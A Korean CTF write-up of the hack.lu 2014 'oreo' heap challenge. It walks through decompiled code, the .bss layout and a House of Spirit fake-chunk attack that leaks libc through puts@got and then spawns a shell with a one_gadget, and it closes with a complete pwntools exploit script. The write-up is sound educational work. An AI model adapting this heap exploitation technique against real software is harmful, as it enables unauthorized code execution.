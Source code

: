 ```yaml
---
title: hack.lu 2014 - oreo
date: 2018-09-17 14:19:53
categories:
- Heap Exploit
- CTF write up
tags:
- House Of Spirit
---
```

```
Welcome to the OREO Original Rifle Ecommerce Online System!
     ,______________________________________
    |_________________,----------._ [____]  -,__  __....-----=====
                   (_(||||||||||||)___________/                   |
                      `----------'   OREO [ ))"-,                   |
                                           ""    `,  _,--....___    |
                                                   `/           """"	
What would you like to do?
```



## Binary Information

```
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
```

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



## House of Spirit

:: free 해줄 때 넣어주는 인자 값을 fake_chunk 주소로 변경해 fake_chunk 메모리에 malloc이 되도록 한다.



```c
unsigned int Message_order()
{
  unsigned int canary; // ST1C_4

  canary = __readgsdword(0x14u);
  printf("Enter any notice you'd like to submit with your order: ");
  fgets(order_message, 128, stdin);
  Make_null(order_message);
  return __readgsdword(0x14u) ^ canary;
}
```

```
.bss:0804A2A8 order_message   dd ?                    ; DATA XREF: Message_order+23↑r
.bss:0804A2A8                                         ; Message_order+3C↑r ...
.bss:0804A2AC                 align 20h
.bss:0804A2C0 order_addr      db    ? ;               ; DATA XREF: main+29↑o
.bss:0804A2C1                 db    ? ;
.bss:0804A2C2                 db    ? ;
```

bss 영역을 보면 message를 출력할 때, order_message 변수에 message가 저장되어 있는 order_addr 주소를 넣고  영역을 포인터로 전달한다.



rifle 구조체

```
00000000 rifle           struc ; (sizeof=0x38, align=0x4, copyof_5)
00000000 description     db 25 dup(?)
00000019 name            db 26 dup(?)
00000033                 db ? ; undefined
00000034 addr            dd ?                    ; offset
00000038 rifle           ends
```

```c
unsigned int Show_rifles()
{
  rifle *i; // [esp+14h] [ebp-14h]
  unsigned int canary; // [esp+1Ch] [ebp-Ch]

  canary = __readgsdword(0x14u);
  printf("Rifle to be ordered:\n%s\n", "===================================");
  for ( i = malloc_addr; i; i = (rifle *)i->addr )
  {
    printf("Name: %s\n", i->name);
    printf("Description: %s\n", i);
    puts("===================================");
  }
  return __readgsdword(0x14u) ^ canary;
}
```

rifle을 보여주는 메뉴인데, rifle 구조체의 addr 변수 부분을 이용해 null 일 때 까지 출력을 합니다. 이를 이용해 우리가 원하는 addr에 fake_chunk addr을 넣어주고 이 부분이 free 가 되게 한다. fake_chunk에서 malloc size도 맞춰주어야 하므로 rifle count 가 0x41 or 0x40이 되게 한다. 이 malloc 부분이 order_message 변수 부분을 포함하게 된다.

order_message 변수에 puts@got 를 넣고 이 주소에 one_gadget을 넣으면 쉘을 획득할 수 있다.



```python
from pwn import *
 
p = process("./oreo")
#context.log_level = 'debug'
 
def add(name, desc):
    p.sendline('1')
    p.sendline(name)
    p.sendline(desc)
 
def order():
    p.sendline('3')
 
def message(msg):
    p.sendline('4')
    p.sendline(msg)
 
def status():
    p.sendline('5')
    p.recvuntil('Message: ')
    leak = p.recvuntil('=')
    return leak[0:4]
 
fake = 0x804a2a0
puts = 0x804a248 
 
for i in range(0,0x40-1):
    add(str(i),str(i))
 
message(p32(0x00)*9+p32(0x40))
 
add("x"*27+p32(fake+0x8),'xx')
 
order()
 
add("aa" ,p32(puts))
 
leak = status()
offset = 0x5fca0
libc = u32(leak) - offset
log.info("Libc_base :::"+hex(libc))
 
one_gadget = 0x5fbc5
message(p32(libc+one_gadget))
 
p.interactive()
 
```

